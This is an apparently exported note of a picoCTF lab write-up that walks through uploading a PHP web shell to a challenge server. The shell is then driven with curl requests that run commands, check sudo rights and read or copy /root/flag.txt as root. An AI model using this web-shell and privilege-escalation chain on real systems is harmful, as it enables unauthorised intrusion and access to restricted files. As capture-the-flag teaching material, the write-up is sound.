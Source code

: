 ![[Pasted image 20250312235024.png]]


### 1. **Upload a Web Shell (`sh3.php`)**

You started by uploading a PHP web shell (`sh3.php`) to the vulnerable server. This was possible because the server allowed file uploads.

**Example URL for uploading:**
![[Pasted image 20250312235118.png]]

`http://standard-pizzas.picoctf.net:54343/uploads/sh3.php`

### 2. **Execute Commands via Web Shell**

Using the uploaded PHP shell, you executed commands on the server by passing them as parameters through the URL. The shell executed commands like `id`, which showed the user under which the web server is running (`www-data`).

For example, you ran:

`curl "http://standard-pizzas.picoctf.net:54343/uploads/sh3.php?cmd=id"`

### 3. **Discover the Sudo Privileges**

Next, you discovered that the web server user (`www-data`) had **sudo privileges without a password**. This was key to escalating your privileges.

You found out that the `www-data` user can run **any command as root without a password**:


`curl "http://standard-pizzas.picoctf.net:54343/uploads/sh3.php?cmd=sudo+-l"`

This revealed the line:  
`(ALL) NOPASSWD: ALL`

### 4. **Gain Root Privileges**

Using the `sudo` command, you could run any command as root without needing a password. This allowed you to **access files that are restricted** to normal users.

You executed the following command to read the flag:

bash



CopyEdit

`curl "http://standard-pizzas.picoctf.net:54343/uploads/sh3.php?cmd=sudo%20cat%20/root/flag.txt"`

This returned the contents of `/root/flag.txt`, which is the flag!

### 5. **Alternative Method (Move Flag to Web-Accessible Directory)**

If `cat` didn’t work or you wanted to make the flag easier to access, you could move the flag to a directory that is accessible via a browser. Here's how you would do that:

bash

CopyEdit

`curl "http://standard-pizzas.picoctf.net:54343/uploads/sh3.php?cmd=sudo%20cp%20/root/flag.txt%20/var/www/html/flag.txt"`

Then you can open the following URL to see the flag:

bash

CopyEdit

`http://standard-pizzas.picoctf.net:54343/flag.txt`

### Summary of Commands:

1. **Upload the shell**:
    - Upload the PHP shell via the web application.
2. **Execute basic commands**:
    - `curl "http://<server>/uploads/sh3.php?cmd=id"`
    - `curl "http://<server>/uploads/sh3.php?cmd=sudo+-l"`
3. **Access the flag**:
    - `curl "http://<server>/uploads/sh3.php?cmd=sudo%20cat%20/root/flag.txt"`
    - Or move the flag:  
        `curl "http://<server>/uploads/sh3.php?cmd=sudo%20cp%20/root/flag.txt%20/var/www/html/flag.txt"`

![[Pasted image 20250308110558.png]]
